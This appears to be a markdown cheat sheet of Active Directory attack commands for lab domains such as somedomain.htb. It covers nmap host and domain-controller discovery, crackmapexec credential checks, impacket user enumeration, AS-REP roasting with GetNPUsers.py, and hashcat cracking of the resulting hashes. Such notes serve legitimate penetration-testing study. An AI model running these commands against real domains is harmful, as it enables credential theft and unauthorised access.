 ### Active Directory

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and 88 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

### How to know extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

### How to know that username/password combination is valid ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`
   
#### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

#### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py painters.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

